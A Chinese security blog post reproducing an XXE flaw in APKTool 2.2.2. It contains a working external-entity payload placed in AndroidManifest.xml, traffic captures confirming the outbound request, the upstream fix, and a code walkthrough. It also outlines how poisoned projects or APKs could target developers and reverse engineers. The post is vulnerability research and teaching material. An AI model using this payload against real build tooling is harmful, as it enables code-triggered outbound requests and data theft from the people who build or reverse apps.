




Author：Potato Couplee
前段时间APKTool被爆出了两个漏洞，吓得我。。。。。。
原文在这
在某天深夜，拉着困的不要不要的李神探一起分析了第一个漏洞，因为没有禁用外部实体引用导致在解析AndroidManifest.xml时导致的XXE攻击
鹅场的老师傅们说在1.5.2 - 2.2.4之间的版本受影响，那我们可以拿2.2.2来复现
紧跟老司机脚步学习，下载地址如下
然而请同时下载准备好APKTool 2.2.4，不要问为什么
简单的写个APK，就创建工程啥都不改，然后编译签名出来，使用APKTool 2.2.2进行反编译，然后回编译，啥都不改，如果用的是新版本AS编译的APK是会报下面这种错误的
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar d APKTool_XXE.apk -o APKTool_XXE
I: Using Apktool 2.2.2 on APKTool_XXE.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/wnagzihxain/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: null reference: m1=0x01010540(reference), m2=0xffffffff(bool)
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar b APKTool_XXE -o APKTool_XXE_Poc.apk
I: Using Apktool 2.2.2
I: Checking whether sources has changed...
I: Smaling smali folder into classes.dex...
I: Checking whether resources has changed...
I: Building resources...
W: res/drawable-v24/$ic_launcher_foreground__0.xml: Invalid file name: must contain only [a-zA-Z0-9_.]. Ignoring...
W: A/ ( 3762): First type is not attr!
Exception in thread "main" brut.androlib.AndrolibException: brut.androlib.AndrolibException: brut.common.BrutException: could not exec (exit code = 134): [/tmp/brut_util_Jar_4281020132069659160.tmp, p, --forced-package-id, 127, --min-sdk-version, 19, --target-sdk-version, 26, --version-code, 1, --version-name, 1.0, --no-version-vectors, -F, /tmp/APKTOOL3020486340330394262.tmp, -0, arsc, -0, arsc, -I, /home/wnagzihxain/.local/share/apktool/framework/1.apk, -S, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/res, -M, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/AndroidManifest.xml]
at brut.androlib.Androlib.buildResourcesFull(Androlib.java:477)
at brut.androlib.Androlib.buildResources(Androlib.java:411)
at brut.androlib.Androlib.build(Androlib.java:310)
at brut.androlib.Androlib.build(Androlib.java:263)
at brut.apktool.Main.cmdBuild(Main.java:227)
at brut.apktool.Main.main(Main.java:84)
Caused by: brut.androlib.AndrolibException: brut.common.BrutException: could not exec (exit code = 134): [/tmp/brut_util_Jar_4281020132069659160.tmp, p, --forced-package-id, 127, --min-sdk-version, 19, --target-sdk-version, 26, --version-code, 1, --version-name, 1.0, --no-version-vectors, -F, /tmp/APKTOOL3020486340330394262.tmp, -0, arsc, -0, arsc, -I, /home/wnagzihxain/.local/share/apktool/framework/1.apk, -S, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/res, -M, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/AndroidManifest.xml]
at brut.androlib.res.AndrolibResources.aaptPackage(AndrolibResources.java:440)
at brut.androlib.Androlib.buildResourcesFull(Androlib.java:463)
... 5 more
Caused by: brut.common.BrutException: could not exec (exit code = 134): [/tmp/brut_util_Jar_4281020132069659160.tmp, p, --forced-package-id, 127, --min-sdk-version, 19, --target-sdk-version, 26, --version-code, 1, --version-name, 1.0, --no-version-vectors, -F, /tmp/APKTOOL3020486340330394262.tmp, -0, arsc, -0, arsc, -I, /home/wnagzihxain/.local/share/apktool/framework/1.apk, -S, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/res, -M, /home/wnagzihxain/APKTool_XXE_Vulnerability/APKTool_XXE/AndroidManifest.xml]
at brut.util.OS.exec(OS.java:95)
at brut.androlib.res.AndrolibResources.aaptPackage(AndrolibResources.java:434)
... 6 more
关键在于
W: A/ ( 3762): First type is not attr!
Windows和Linux同样的错误，因为我已经测过了，于是搜原因，请勿使用某度，会发现连个毛都搜不出来
直接找APKTool的Github Issue，非常方便的找到了
大概和我的原因是一样的，作者回复这个问题其实已经解决了
iBotPeaches commented on Jun 27
Thanks for the report, however this is a duplicate of #1520 which was also recently found in #1532 with another error.
Closing as duplicate of #1520
跟过去，很长很长，然后慢慢翻，可以看到作者从发现问题到解决问题的整个过程，以下是关键的原因，新版本AS使用aapt2，而APKTool使用的是aapt1
iBotPeaches commented on Jul 1 • edited
Ugh. I figured it out. Lots of work ahead of me. It appears since a related bug to this was Magisk, I took a look at their GitHub.
https://github.com/topjohnwu/MagiskManager/blob/master/gradle.properties#L25
They use aapt2, which we use aapt1 in apktool. It seems applications built in aapt2 cannot be rebuilt in aapt1 - https://developer.android.com/studio/preview/features/new-android-plugin.html
Options
Hack around these checks in aapt1 and hope it works.
Port apktool to aapt2.
接下来作者解决了这个问题，然后还给出了一个APK来给大家测试
iBotPeaches commented on Jul 3
Okay that worked.
➜ Bug1520 apktool d app-debug.apk -f
I: Using Apktool 2.2.4-988fd1-SNAPSHOT on app-debug.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/ibotpeaches/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
➜ Bug1520 apktool b app-debug
I: Using Apktool 2.2.4-988fd1-SNAPSHOT
I: Checking whether sources has changed...
I: Smaling smali folder into classes.dex...
I: Checking whether sources has changed...
I: Smaling smali_classes2 folder into classes2.dex...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
➜ Bug1520
Interesting things to notice. This is known internally as API26, the dev preview was just called preview-o, so I believe APIs are finalized. The API25 internal framework was 17.2MB, API26 is 9.2MB. I wonder if aapt2 was responsible for the smaller size.
Two incoming commits (listed above) will reference this ticket, but not close this bug. I'm heading out of town, will leave it for people to confirm/test.
所以使用APKTool 2.2.4即可进行反编译和回编译
那么问题来了，APKTool 2.2.4并不在受影响的版本范围之内，这样测测测有个毛用啊
还有一个小问题，如果遇到了这个错误，直接删掉AndroidManifest.xml的这个属性，无伤大雅
W: E:\test\APKTool_XXE\AndroidManifest.xml:3: error: No resource identifier found for attribute 'roundIcon' in package 'android'
所以呢，咋办？
找个以前版本的AS编译出来的应用来测一波
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar d -f APKTool_XXE.apk -o APKTool_XXE
I: Using Apktool 2.2.2 on APKTool_XXE.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/wnagzihxain/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar b -f APKTool_XXE -o APKTool_XXE_Poc.apk
I: Using Apktool 2.2.2
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
打开AndroidManifest.xml，我们加上一句，然后在中间进行调用&xxe;
<!DOCTYPE manifest [<!ENTITY xxe SYSTEM 'http://couplee.wang;'>]>
大概像这样
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<!DOCTYPE manifest [<!ENTITY xxe SYSTEM 'http://couplee.wang;'>]>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.wnagzihxain.application" platformBuildVersionCode="25" platformBuildVersionName="7.1.1">
&xxe;
<meta-data android:name="android.support.VERSION" android:value="25.3.1"/>
<application android:allowBackup="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:roundIcon="@mipmap/ic_launcher_round" android:supportsRtl="true" android:theme="@style/AppTheme">
<activity android:name="com.wnagzihxain.application.MainActivity">
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
</application>
</manifest>
尝试回编译
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar b -f APKTool_XXE -o APKTool_XXE_Poc.apk
I: Using Apktool 2.2.2
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
看到停在那里不动的那一刻，我的小心脏~~~
好在还是回编译完成了，使用tshark来查看流量，没安装的同学可以先安装
wnagzihxain@toT0C:~$ sudo apt install tshark
先查看可使用的网卡
wnagzihxain@toT0C:~$ sudo tshark -D
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:44: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.
1. ens33
2. any
3. lo (Loopback)
4. nflog
5. nfqueue
6. usbmon1
7. usbmon2
8. cisco (Cisco remote capture)
9. randpkt (Random packet generator)
10. ssh (SSH remote capture)
查看网卡，结合上面确认是ens33
wnagzihxain@toT0C:~$ ifconfig
ens33 Link encap:以太网 硬件地址 00:0c:29:07:15:e0
inet 地址:192.168.121.133 广播:192.168.121.255 掩码:255.255.255.0
inet6 地址: fe80::1483:9e:a6ec:3400/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 跃点数:1
接收数据包:41821 错误:12 丢弃:0 过载:0 帧数:0
发送数据包:28268 错误:0 丢弃:0 过载:0 载波:0
碰撞:0 发送队列长度:1000
接收字节:44857243 (44.8 MB) 发送字节:2126689 (2.1 MB)
中断:19 基本地址:0x2000
lo Link encap:本地环回
inet 地址:127.0.0.1 掩码:255.0.0.0
inet6 地址: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 跃点数:1
接收数据包:2960 错误:0 丢弃:0 过载:0 帧数:0
发送数据包:2960 错误:0 丢弃:0 过载:0 载波:0
碰撞:0 发送队列长度:1000
接收字节:285395 (285.3 KB) 发送字节:285395 (285.3 KB)
开启监听，就不过滤具体地址了
wnagzihxain@toT0C:~$ sudo tshark -i ens33 -f "port 53"
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:44: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.
Capturing on 'ens33'
然后执行回编译
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.2.jar b APKTool_XXE -o APKTool_XXE_Poc.ap
I: Using Apktool 2.2.2
I: Checking whether sources has changed...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
捕获到了DNS解析流量，可以看到确实是访问了，换句话说就是：执行命令了
wnagzihxain@toT0C:~$ sudo tshark -i ens33 -f "port 53"
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:44: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.
Capturing on 'ens33'
1 0.000000000 192.168.121.133 → 192.168.121.2 DNS 73 Standard query 0xbf88 A couplee.wang;
2 0.000170879 192.168.121.133 → 192.168.121.2 DNS 73 Standard query 0xf043 AAAA couplee.wang;
3 0.028609824 192.168.121.2 → 192.168.121.133 DNS 148 Standard query response 0xbf88 No such name A couplee.wang; SOA a.root-servers.net
4 0.035819090 192.168.121.2 → 192.168.121.133 DNS 148 Standard query response 0xf043 No such name AAAA couplee.wang; SOA a.root-servers.net
5 0.036051324 192.168.121.133 → 192.168.121.2 DNS 85 Standard query 0xa964 A couplee.wang;.localdomain
6 0.036177523 192.168.121.133 → 192.168.121.2 DNS 85 Standard query 0xfaa3 AAAA couplee.wang;.localdomain
7 0.085708002 192.168.121.2 → 192.168.121.133 DNS 160 Standard query response 0xfaa3 No such name AAAA couplee.wang;.localdomain SOA a.root-servers.net
8 5.040568497 192.168.121.133 → 192.168.121.2 DNS 85 Standard query 0xa964 A couplee.wang;.localdomain
9 10.044344674 192.168.121.133 → 192.168.121.2 DNS 85 Standard query 0xa964 A couplee.wang;.localdomain
大概整个过程如下图
然后我们来看作者的修复，其实修复很简单，禁用外部实体引用即可
两个添加代码的位置
@@ -246,6 +246,8 @@ private static Document loadDocument(File file)
throws IOException, SAXException, ParserConfigurationException {
DocumentBuilderFactory docFactory = DocumentBuilderFactory.newInstance();
+ docFactory.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
+
DocumentBuilder docBuilder = docFactory.newDocumentBuilder();
return docBuilder.parse(file);
}
@@ -264,10 +266,10 @@ private static void saveDocument(File file, Document doc)
TransformerFactory transformerFactory = TransformerFactory.newInstance();
Transformer transformer = transformerFactory.newTransformer();
- transformer.setOutputProperty(OutputKeys.INDENT, "yes");
- transformer.setOutputProperty(OutputKeys.STANDALONE,"yes");
DOMSource source = new DOMSource(doc);
StreamResult result = new StreamResult(file);
transformer.transform(source, result);
}
+
+ private static final String FEATURE_DISABLE_DOCTYPE_DECL = "http://apache.org/xml/features/disallow-doctype-decl";
}
主要是这两句
+ docFactory.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
+ private static final String FEATURE_DISABLE_DOCTYPE_DECL = "http://apache.org/xml/features/disallow-doctype-decl";
可以看到APKTool 2.2.4开始已经修复了这个问题，当我们插入外部实体引用的时候，就会提示下面那句话
wnagzihxain@toT0C:~/APKTool_XXE_Vulnerability$ java -jar apktool_2.2.4.jar b -f APKTool_XXE -o APKTool_XXE_Poc.apk
I: Using Apktool 2.2.4
I: Smaling smali folder into classes.dex...
[Fatal Error] :2:10: 将功能 "http://apache.org/xml/features/disallow-doctype-decl" 设置为“真”时, 不允许使用 DOCTYPE。
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
在测完了这个之后，我开始好奇ShakaApktool是否存在同样的问题
该项目的地址
下载最新版本的ShakaApkTool，重复上面的过程
经过测试最新版本，同样存在漏洞（为什么感觉这个好像没有人报呢？）

在整个过程复现完成后，我们来跟踪一下AndroidManifest.xml是如何回编译的，观察在哪里触发了漏洞
首先是从Main.java开始，通过对d还是b的判断区分是反编译还是回编译
if (opt.equalsIgnoreCase("d") || opt.equalsIgnoreCase("decode")) {
cmdDecode(commandLine);
cmdFound = true;
} else if (opt.equalsIgnoreCase("b") || opt.equalsIgnoreCase("build")) {
cmdBuild(commandLine);
cmdFound = true;
}
如果是b，则会调用cmdBuild(commandLine)进行其余参数的判断
private static void cmdBuild(CommandLine cli) throws BrutException {
String[] args = cli.getArgs();
String appDirName = args.length < 2 ? "." : args[1];
File outFile;
ApkOptions apkOptions = new ApkOptions();
// check for build options
if (cli.hasOption("f") || cli.hasOption("force-all")) {
apkOptions.forceBuildAll = true;
}
if (cli.hasOption("d") || cli.hasOption("debug")) {
System.out.println("SmaliDebugging has been removed in 2.1.0 onward. Please see: https://github.com/iBotPeaches/Apktool/issues/1061");
apkOptions.debugMode = true;
}
if (cli.hasOption("v") || cli.hasOption("verbose")) {
apkOptions.verbose = true;
}
if (cli.hasOption("a") || cli.hasOption("aapt")) {
apkOptions.aaptPath = cli.getOptionValue("a");
}
if (cli.hasOption("c") || cli.hasOption("copy-original")) {
apkOptions.copyOriginalFiles = true;
}
if (cli.hasOption("p") || cli.hasOption("frame-path")) {
apkOptions.frameworkFolderLocation = cli.getOptionValue("p");
}
if (cli.hasOption("o") || cli.hasOption("output")) {
outFile = new File(cli.getOptionValue("o"));
} else {
outFile = null;
}
// try and build apk
new Androlib(apkOptions).build(new File(appDirName), outFile);
}
在处理完其余的参数后，调用new Androlib().build()进行回编译，以下跳过其它编译部分
创建一个AndroidManifest.xml.orig文件用于备份AndroidManifest.xml
new File(appDir, APK_DIRNAME).mkdirs();
File manifest = new File(appDir, "AndroidManifest.xml");
File manifestOriginal = new File(appDir, "AndroidManifest.xml.orig");
调用buildManifestFile()进行解析
buildManifestFile(appDir, manifest, manifestOriginal);
使用FileUtils.copyFile()函数拷贝AndroidManifest.xml到AndroidManifest.xml.orig
private void buildManifestFile(File appDir, File manifest, File manifestOriginal)
throws AndrolibException {
// If we decoded in "raw", we cannot patch AndroidManifest
if (new File(appDir, "resources.arsc").exists()) {
return;
}
if (manifest.isFile() && manifest.exists()) {
try {
if (manifestOriginal.exists()) {
manifestOriginal.delete();
}
FileUtils.copyFile(manifest, manifestOriginal);
ResXmlPatcher.fixingPublicAttrsInProviderAttributes(manifest);
} catch (IOException ex) {
throw new AndrolibException(ex.getMessage());
}
}
}
拷贝完成后调用ResXmlPatcher.fixingPublicAttrsInProviderAttributes(manifest)进行解析
public static void fixingPublicAttrsInProviderAttributes(File file) throws AndrolibException {
boolean saved = false;
if (file.exists()) {
try {
Document doc = loadDocument(file);
XPath xPath = XPathFactory.newInstance().newXPath();
XPathExpression expression = xPath.compile("/manifest/application/provider");
Object result = expression.evaluate(doc, XPathConstants.NODESET);
NodeList nodes = (NodeList) result;
for (int i = 0; i < nodes.getLength(); i++) {
Node node = nodes.item(i);
NamedNodeMap attrs = node.getAttributes();
if (attrs != null) {
Node provider = attrs.getNamedItem("android:authorities");
if (provider != null) {
saved = isSaved(file, saved, provider);
}
}
}
// android:scheme
xPath = XPathFactory.newInstance().newXPath();
expression = xPath.compile("/manifest/application/activity/intent-filter/data");
result = expression.evaluate(doc, XPathConstants.NODESET);
nodes = (NodeList) result;
for (int i = 0; i < nodes.getLength(); i++) {
Node node = nodes.item(i);
NamedNodeMap attrs = node.getAttributes();
if (attrs != null) {
Node provider = attrs.getNamedItem("android:scheme");
if (provider != null) {
saved = isSaved(file, saved, provider);
}
}
}
if (saved) {
saveDocument(file, doc);
}
} catch (SAXException | ParserConfigurationException | IOException |
XPathExpressionException | TransformerException ignored) {
}
}
}
这个方法比较复杂，第一句是进行文件的加载
Document doc = loadDocument(file);
这个函数我们之前在对比修复补丁的时候看过，但是作者在那之后又进行了多次的修改，所以代码看起来会相对不一样，但是核心的代码还是可以看出来的，因为一开始没有禁用外部实体引用，直接调用了parse()，导致的XXE
private static Document loadDocument(File file)
throws IOException, SAXException, ParserConfigurationException {
DocumentBuilderFactory docFactory = DocumentBuilderFactory.newInstance();
docFactory.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
docFactory.setFeature(FEATURE_LOAD_DTD, false);
try {
docFactory.setAttribute(ACCESS_EXTERNAL_DTD, " ");
docFactory.setAttribute(ACCESS_EXTERNAL_SCHEMA, " ");
} catch (IllegalArgumentException ex) {
LOGGER.warning("JAXP 1.5 Support is required to validate XML");
}
DocumentBuilder docBuilder = docFactory.newDocumentBuilder();
// Not using the parse(File) method on purpose, so that we can control when
// to close it. Somehow parse(File) does not seem to close the file in all cases.
FileInputStream inputStream = new FileInputStream(file);
try {
return docBuilder.parse(inputStream);
} finally {
inputStream.close();
}
}
这里可以来简单的手动模拟下过程，我们就单纯的模拟解析的过程
直接加载我们存在攻击代码的AndroidManifest.xml文件
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
public class XmlReader {
public static void main(String[] args) throws Exception {
XmlReader reader = new XmlReader();
}
public XmlReader() throws Exception {
DocumentBuilderFactory domfac = DocumentBuilderFactory.newInstance();
try {
DocumentBuilder domBuilder = domfac.newDocumentBuilder();
InputStream is = new FileInputStream(new File("AndroidManifest.xml"));
Document doc = domBuilder.parse(is);
} catch (Exception e) {
// TODO Auto-generated catch block
e.printStackTrace();
}
}
}
跑起来，可以看到parse()的时候执行了我们的攻击代码

那么我们加入禁用外部实体引用的代码
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;
public class XmlReader {
public static void main(String[] args) throws Exception {
XmlReader reader = new XmlReader();
}
public XmlReader() throws Exception {
String FEATURE_DISABLE_DOCTYPE_DECL = "http://apache.org/xml/features/disallow-doctype-decl";
DocumentBuilderFactory domfac = DocumentBuilderFactory.newInstance();
domfac.setFeature(FEATURE_DISABLE_DOCTYPE_DECL, true);
try {
DocumentBuilder domBuilder = domfac.newDocumentBuilder();
InputStream is = new FileInputStream(new File("AndroidManifest.xml"));
Document doc = domBuilder.parse(is);
} catch (Exception e) {
// TODO Auto-generated catch block
e.printStackTrace();
}
}
}
运行后，会发现被禁用了

既然验证了漏洞的存在，那么我们怎么构造一个Poc样本呢？
因为前面我们是自己手动添加的那段代码，并没有人会在反编译完APK之后手动加一段攻击自己的代码
所以，我们来研究一下
首先使用Android Studio来直接生成，发现不行，报异常，URL变红选择Ignore忽略掉
然后编译，因为Android Studio版本升级修复了该漏洞，所以我们换到Linux下

此时的攻击场景其实可以分为两种：第一种是被攻击者使用的是存在漏洞的Android Studio，下载了存在攻击代码的项目，直接导入，运行后造成命令执行，第二种是我们生成存在攻击代码的APK，逆向人员反编译后，然后再回编译，触发漏洞
第一种场景在该漏洞发布的那个博客上其实是有提到的，本来想拿那个项目来测试的，发现已删除。所以就自己创建一个，效果一样的
然而新系统并没有环境，用的32位Ubuntu，先装一波Android Studio，挑个稍微早期的版本，保证使用到的编译工具存在漏洞即可
然而也不能太早期了。。。。。。
大概就是2.x左右的版本应该是可以的，看下发布时间，不要是今年的就行，今年发布的可能修复了
毕竟不是教安卓开发，具体的配置就不过多介绍了
创建个项目，然后插入我们前面的代码，一模一样即可
运行起来后，可以看到DNS的解析记录，说明执行了我们在项目里插入的代码
作为一个热爱祖国热爱党的好学生，在下载某些组件的时候遇到了一道墙，所以，本图由李神探提供

那么第二个场景，我们尝试生成一个包含攻击代码的APK，如果一切顺利，逆向人员在反编译后会得到一个含有攻击代码的AndroidManifest.xml，他在回编译的时候，就会触发漏洞
我们来尝试生成，因为那道墙我是真的爬不上去，所以依旧是由李神探来完成以下部分，非常尴尬，编译不了，因为AndroidManifest.xml是由aapt来编译的，所以应该还是aapt的问题

既然使用Android Studio编译不了，那么如果是直接使用APKTool呢？（我觉得效果是一样的，毕竟APKTool用的也是谷歌粑粑的aapt）
反编译，添加代码，回编译，这时候我们得到APKTool_XXE_Poc.apk
开启流量监听，使用存在漏洞的APKTool版本反编译
看起来很是尴尬呀，能不能看得懂就看造化了，我们发现我们在回编译的时候是可以触发漏洞的，但是生成的样本却不存在我们插入的代码，在这种情况下，我们如果丢出去一个APKTool_XXE_Poc.apk，它是不会有攻击代码的，也就是说，反编译出来没有攻击代码，回编译时也就触发不了漏洞

喵~喵~喵？
这么尴尬的吗？？？？？？
看起来像是在打包进去的时候被过滤掉了，啥情况？？？？？？
后来仔细想了想：Android Studio和APKTool都使用到了aapt，但是使用前，会先使用DocumentBuilder将其加载为对象，因为未禁用外部实体引用导致的代码执行，在解析了XML文件为实例对象后，再调用aapt进行资源的编译，再结合之前的测试，被过滤掉应该是aapt的操作
这就很尴尬了，这个地方还有待研究，代码太复杂，需要单独写篇文章分析下整个编译过程
弄清楚了这部分后，我们来思考一个问题：如何构造一个具有攻击性的项目？
就像学习二进制漏洞一样，比如一个最简单的栈溢出，最后演示一个EIP变成0x41414141就没了。。。。。。
所以我们这里来实现一下窃取数据并回传服务器，这个在鹅场的文章里有写过类似的，在最后的引用里有提到，感觉写的特别棒，学到了很多
